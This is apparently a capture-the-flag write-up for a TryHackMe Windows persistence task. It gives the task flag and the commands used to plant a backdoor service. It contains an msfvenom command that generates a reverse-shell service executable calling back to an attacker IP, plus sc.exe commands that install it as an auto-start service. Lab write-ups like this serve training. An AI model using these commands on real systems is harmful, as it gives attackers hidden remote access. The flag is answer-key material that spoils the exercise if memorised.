 ### Answer the questions below

* Insert flag7 here

    `THM{SUSPICIOUS_SERVICES}`

    * Create payload   

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=5555 -f exe-service -o rev-svc.exe
        ```

        ![task4-payload](./images/task4-payload.png)

    * Download payload to target machine

        ![task4-download](./images/task4-download.png)

    * Setup listener on our machine

        ![task3-listener2](./images/task3-listener2.png)

    * Setup the service

        ```
        sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
        sc.exe start THMservice2
        ```

        ![task4-thmservice2](./images/task4-thmservice2.png)
